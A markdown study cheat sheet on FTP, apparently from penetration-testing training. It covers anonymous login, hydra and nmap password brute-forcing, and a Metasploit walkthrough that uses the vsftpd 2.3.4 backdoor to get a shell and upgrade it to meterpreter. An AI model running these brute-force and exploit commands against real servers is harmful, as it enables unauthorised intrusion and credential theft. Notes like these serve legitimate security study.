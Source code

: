 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [hydra](#hydra)
	2. [nmap](#nmap)
	3. [msfconsole](#msfconsole)

---

# #Overview 
FTP - File Transfer Protocol

File sharing protocol used by different services

## #Ports
- 21 : Win/Lin : Main port for access

## Usage
`ftp 192.156.2.3`
- anonymous login
	- user: anonymous
	- pass: null : just hit enter
- When connected
	- status : show information on connection
	- passive : toggle passive mode
	- binary : change from ascii mode to binary mode
	- prompt off : 

## Related Services
vsftp
SFTP
ProFTPD
IIS FTP

---

# #Tools
## #hydra
[Tool info - hydra](../Tools/Hydra.md)

Can use [SMTP](SMTP.md#msfconsole) if service is available to discover user account list.

Dictionary attack with *userlist* and *passlist*
- -t : threads
- -L : user File
- -P : pass File
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> -t 4 ftp
```

---

## #nmap
[Tool info - nmap](../Tools/NMAP.md)

Scripts
```bash
nmap <IP> --script ftp-brute --script-args userdb=/root/users -p 21
```
- --script
	- ftp-brute
		- `--sript-args userdb=/userlist.txt`
	- ftp-anon : checks for anonymous login

---

## #msfconsole
[Tool Info - MSF](../Tools/MSF.md)

1. `search type:exploit vsftpd`
2. `use exploit/unix/ftp/vsftpd_234_backdoor`
	1. info
	2. run : easy
	3. `/bin/bash -i` : launch bash session
	4. ctrl-z : to background the session
3. `search shell_to_meterpreter` : look for module to upgrade session
4. `use post/multi/manage/shell_to_meterpreter`
	1. `set LHOST eht1` : set to ip of interface eth1
	2. `set session 1` : set it to the session number for the shell connection
	3. `run`
5. `sessions -u 1` : to auto upgrade session to meterpreter
6. `sessions` : to show and then connect by specifying number
